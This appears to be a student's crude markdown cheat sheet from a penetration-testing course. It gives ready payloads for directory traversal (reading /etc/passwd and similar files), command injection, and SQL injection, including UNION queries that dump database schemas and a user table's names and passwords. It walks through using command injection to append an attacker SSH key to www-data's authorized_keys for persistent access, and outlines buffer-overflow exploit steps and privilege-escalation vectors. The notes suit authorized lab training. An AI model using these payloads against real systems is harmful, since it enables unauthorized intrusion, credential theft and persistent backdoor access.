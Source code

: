 # *****SHITS VIOLENTLY**** 💯
### Host Discovery
- Narrow the scope 
  - ping sweep (see whats out there maybe cuz huge subnet)
    - `for i in {1..254} ;do (ping -c x.x.x.x | grep "bytes from" &) ;done`
  - now can enumerate the hosts, nmap
    - nmap the well-known ports, notice some important services
      - say it's http, you can use those scripts, some examples below:
      - `nmap -v -sT -Pn -T4 --script http-robots.txt.nse X.X.X.X`
      - `nmap -v -sT -Pn -T4 --script http-enum.nse X.X.X.X`
        - may need `=` connecting "--script" with "http-blahblah"
      - `nikto -h X.X.X.X`
- use web exploitation tools (view source, sql, inspect element, etc) ***HE SAID SOMETHING ABOUT CHANGING OPACITY, CODE COULD BE BLACK AND/OR WHITE IN PAGE SRC OR CONSOLE THAT WOULD'T NORMALLY BE VISIBLE***

### Web Exploitation
- Directory Traversal - information
  - ../../../../../../../../etc/passwd
  - ../../../../../../../../etc/group
  - ../../../../../../../../etc/hosts
  - ../../../../../../../../etc/networks
  - ../../../../../../../../etc/resolv.conf
- Cmd Injection - Information/Access
  - `; id`
  - `; whoami`
  - `; cat`
  - `; <CMD>`
- want to upload your SSH key to user that you are home directory
  - find the default home directoru, for the user, based off of /etc/passwd
    - `www-data:x:33:33:www-data:/var/www:/bin/bash` 
  - generate your own ssh keys 
    - `@linops: ssh-keygen -t rsa -b 4096` 
      - set no password
      - saves public key in /home/student/.ssh/id_rsa.pub
        - **dont use privat key dumbass**
      - `cat /home/student/.ssh/id_rsa.pub
      - copy the text and save it to put it on the vulnerable web stuff
  - utilizing command injection,
  - `; ls -la /var/www` to see what's there
    - if /.ssh directory is not there, create it
    - `; mkdir var/www//.ssh`
  - `; touch /var/www/.ssh/authorized_keys`
  - `; ls -la /var/www/.ssh` - **ALWAYS CHECK TO MAKE SURE THE THINGS YOU DID ACTUALLY HAPPENED**
  - `; echo "(id_rsa.pub conents)" >> /var/www/.ssh/authorized_keys`
  - `ssh -i .ssh/id_rsa www-data@X.X.X.X`
    - www-data being the user that you are when you're on the webpage
- Good walkthrough for all this on **Web Exploitation Day 1** 
- POST method = input field box 
  - `test' or 1='1`
  - `test' or 1='1;`
  - `test' or 1='1; #`
  - `test' or 1='1; --`
   - Can also try `OR` instead of `or` cuz shit is finnickyfuct
  - throw it in both fields
  - see if it breaks?
- GET method = url thing
  - information may be different thatn POST method
  - can keep interacting with the page to see how the url changes
  - blahblahblah.php?Selection=**1**&submitblahblah
    - see that 1 changes to 2 or 3 and stuff 
      - .php?Selection=1 or 1=1
        - %20 represents a space in a URL field
      - .php?Selection=2 or 1=1
        - and 3 and 4 and so on
          - different syntaxes `=2 or 1= 1;` `=2 or 1=1; #` and stuff same shit as POST method
  - GOLDEN STATEMENT
    - on vulnerable page, 
      - Selection=2 UNION select table_schema,table_name,column_name from information.schema.columns 
      - columns = Table, This table exists within the information_schema database
      - table_schema = Column, List out database names 
      - Column_name = Column, List out the column names
        - see that there's a column name thing called session, with column names (middle column) from user table (right)
        - UNION select 1,2,3,4,5,6 #
        - UNION select 1,2,3 #
          - let's say 2 showed 4 showed and 6 showed
          - UNION select 1,table_schema,3,table_name,5,column_name from information_schema.columns
            - put the things we wanted in their respective fields and filled in the rest with placeholder numbers
        - UNION select id,name,pass from session.user

### Reverse Engineering / Exploit Development
- static analysis : file, strings
- Behavioral analysis: run the file (what normal looks like)
---
- find the offset 
  - gdb, buffer overflow pattern generator 
- Validate EIP with B
- crafted exploit
  - offset
  - EIP/JMP ESP placeholder
  - NOP sled
- generate shellcode
- find JMP ESP from the **Target Machine's** memory 
  - `env -gdb <program name>` 
- replace EIP/JMP ESP placeholder with valid JMP ESP memory address
- verify exploit
  - offset
  - JMP ESP (Big endian to Little endian)
  - NOP sled
  - shell code
  - Does sudo matter? yes. Need to run program as sudo to invoke root privileges
  
### Exploiting tings 
- SUID/SGID
- cron
- run-parts
- "." in path
- /etc/sudoers
- sudo -l 
- GTFObins
- /var/tmp and/or /tmp/


.

xfreerdp /u:comrade /v:0.0.0.0 /port:32302 /dynamic-resolution +glyph-cache +clipboard
















